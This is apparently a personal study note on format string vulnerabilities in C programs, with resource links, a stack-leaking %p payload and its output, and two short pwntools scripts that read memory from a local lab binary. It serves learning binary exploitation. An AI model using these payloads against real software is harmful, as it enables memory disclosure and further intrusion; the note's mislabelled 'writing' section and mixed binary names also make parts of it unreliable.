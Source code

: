 ## Format String vulnerability

### Resources
> A simple Format String exploit example - bin 0x11 (LiveOverflow)  
> https://www.youtube.com/watch?v=0WvrSfcdq1I  

### Format String
> https://ir0nstone.gitbook.io/notes/types/stack/format-string  
> https://codeforwin.org/2015/05/list-of-all-format-specifiers-in-c-programming.html  

### Indentifying a format string vulnerability

Look for Any printf function that takes your input thats first and only parameter.

Using the %p allows you to enumerate the addresses on the stack.

### Finding the index of the user input of the stack

Using the %p multiple times until you can identify your exact offset of your index.

Example:

```
./vuln

AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see in the below result that index #6 is the offset of where our A's are.

AAAA 0xf63d4e2e 0xfff359a0 0x804918c 0xfff35a34 0xf7f33470 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Extracting the exact offset for the index selected

```
./vuln

%6$p

Confirming the offset by reading the user input

AAAA %6$p
```

### Writing to the stack

Retrieving the base address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$p" + base_addr

p.sendline(buf)
p.interactive()
```

### Reading the value at the address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$s" + base_addr

p.sendline(buf)
p.interactive()
```
